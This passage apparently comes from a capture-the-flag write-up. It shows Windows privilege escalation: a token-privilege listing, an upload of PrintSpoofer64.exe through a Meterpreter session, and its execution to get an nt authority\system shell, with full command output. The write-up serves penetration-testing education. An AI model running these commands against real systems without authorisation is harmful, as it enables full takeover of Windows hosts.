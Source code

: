 ```
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```
With the SeImpersonatePrivilege, we should be able to elevate to SYSTEM with the PrintSpoofer tool. For more info, see https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
From our meterpreter session we can upload the 64-bit exe.
```
meterpreter > upload /opt/PrintSpoofer/PrintSpoofer/PrintSpoofer64.exe
```
Drop down into a cmd shell with the 'shell' command.
```
C:\Temp>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
We got system! All that's left to do is navigate over to the Administrator's Desktop and grab the root flag. 